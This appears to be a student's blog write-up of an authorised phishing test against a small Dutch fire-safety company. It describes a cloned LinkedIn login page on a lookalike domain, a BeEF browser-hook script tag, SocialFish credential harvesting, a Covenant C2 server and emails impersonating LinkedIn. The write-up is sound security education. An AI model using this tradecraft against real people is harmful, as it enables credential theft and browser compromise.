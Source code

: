 ```yaml
---
layout: single
title: Hoefnagels - phishing campaign
---
```


The goal of our group project is to research what is required from IT-Workz to start providing penetration test as a service. To do that, our
group was tasked with conducting multiple pen tests to select the core requirements.

We have started with establishing contact with Hoefnagels - a company specializing in manufacturing fire safety equipment. The company is quite
old and has been run by the same family since its inception. Since Hoefnagels is a rather small organization, they do not have a designated IT
department. They rely on a 3rd party that set up and does maintenance on their infrastructure.

The scope of the pen test focused on simulating an external threat and one of the goals was to conduct a phishing campaign. I have decided to
pick up this task and work on it together with other group member.

## Prerequisites

Our first goals while getting started were:

- Finding the appropriate technologies for hosting the malicious website.
- Coming up with a plausible scenario, so that the employees might click on the email.

I have decided to focus more on the first one and started researching different phishing tools. We wanted the tooling to give us the possibility
to extract credentials of the victims and to be able to plant a malicious file on their computers.

## Website

Based on our needs, I have decided to use a phishing framework that would aid me with hosting and managing the website. My choice fell on the
tool called [SocialFish](https://github.com/UndeadSec/SocialFish). SocialFish provided an easy way to host custom html websites and attaching
some malicious JavaScript, as well as easy to use interface.

Moreover, we decided to use Beef-XSS - a framework which gives the attacker the possibility to control victim's browser, after delivering a
JavaScript payload.

The website had to be accessible from the internet, so I have decided to host it on a DigitalOcean's virtual machine which could handle
SocialFish and run some additional software.

## Initial deployment and HTTPS

| ![First droplet](../../assets/img/phishing/droplet_1.png) |
| First droplet |

We deployed our virtual machine, and I have started setting up the required software:

- SocialFish
- Beef-XSS
- Uncomplicated Firewall (UFW)
- LetsEncrypt bot

### SocialFish and Beef-XSS

SocialFish is an open source, Python software which allows users to maintain and run phishing campaigns. The application is open source, which
allowed me to customize the behavior of the server to tailor it to our needs.

| ![SocialFish](../../assets/img/phishing/socialfish.png) |
| SocialFish |

I downloaded a copy of LinkedIn's log in page, and uploaded it to the virtual machine to use it as a custom phishing page. This allowed me to add a
a script tag which injects a Beef-XSS payload into the victim's browser.

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```

| ![Beef](../../assets/img/phishing/beef.png) |
| Beef |

Moreover, I used the Let's Encrypt certificate services to increase the legitimacy of my website. That way, the website seemed as if it was an actual
LinkedIn.

### Blocked domain and new website

| ![Blocked domain](../../assets/img/phishing/domain_blocked.png) |
| Blocked domain |

However, few hours after deploying the website, I have discovered that the domain was blocked. Apparently Google's (probably) web crawlers flagged the
website as malicious, since the domain name was `linkedlin.ml` and it was a copy of the linkedin front page. Moreover, I was running Beef-XSS and
SocialFish, which most likely triggered the domain flagging.

This time, we have decided to apply a firewall on our droplet and whitelist Hoefnagels IP address that we obtained from the physical testing, as well as
 our home and school addresses. I have decided to use `UFW` which was preinstalled on that instance of the Ubuntu server.  
_I have blurred out the IP addresses since these are sensitive information_

| ![Firewall rules](../../assets/img/phishing/firewall.png) |
| Firewall rules |

The firewall now only allows the selected IP addresses to the port 443 running the website and port 7443 running a C2 server `covenant` which we planned
to use after compromising victims.

We had two phishing scenarios we planned to execute:

1. Sending a fake job application on their website with a link to our SocialFish server, disguised as a fake LinkedIn page.
2. Sending an email from our `linkedllin.ml` domain that imitates an email from LinkedIn.

For the job application scenario, we decided to apply to the job posting on their website at
_[this url](https://werkenbijhoefnagels.nl/sollicitatieformulier/114/sollicitatieformulier-1ste-Monteur-Meewerkend-Voorman-Montage-buitendienst/)_.
While Georgi created a fake LinkedIn account, I deployed the infrastructure and connected both SocialFish and Beef-XSS together. We sent the job
application and awaited their response.

| ![Landing page](../../assets/img/phishing/linkedllin.ml.png) |
| Landing page |

| ![Profile](../../assets/img/phishing/profile.png) |
| Profile |

While waiting for their answer, we decided to send messages to email addresses that we found during the OSINT phase. We tried deploying an email server
on our DigitalOcean virtual machine using [Mailcow](https://mailcow.email). However, due to security reasons, new accounts are not allowed to use port 25 to send emails.
Therefore, we have decided to use the following address: `noreply.linkedllin.ml@gmail.com`

| ![Phishing email](../../assets/img/phishing/phishing_email.png) |
| Phishing email |

This fake email impersonating LinkedIn emails was sent to the email addresses of the employees. However, majority of the emails were either blocked or non-existent.

| ![Email blocked](../../assets/img/phishing/msg_blocked.png) |
| Email blocked |

### Conclusions

The phishing campaign has had its ups and downs. Not only did we not manage to send mass emails to all employes, nobody was gullible enough to input their credentials
into our fake landing page. This can be broken down into two conclusions:

**Conducting a successful phishing campaign is a hard task.**

It requires good knowledge of managing IT infrastructure, such as firewalls, ssl certificates, DNS and email servers. Moreover fake domains can be easily targeted by the web
crawlers and flagged as malicious. And on top of that, the goal of these extensive preparations is to trick somebody into inputting their credentials on a fake webstie.

**Hoefnagels employees are phishing conscious.**

Throughout the pen test, we kept in contact with the company. Even before we started our campaign, we heard that the employees reported that they started receiving
suspicious emails. The security assessment was kept secret, so the employees didn't fall for an actual attack. Our methods were a bit less successful and a bit more subtle,
but they still didn't fall for that.

All in all, I believe that if our group had more time to prepare for the phishing campaign (month or two), we would have been able to create a trusted email server,
conduct an  extensive OSINT and execute a mass mailing attack.

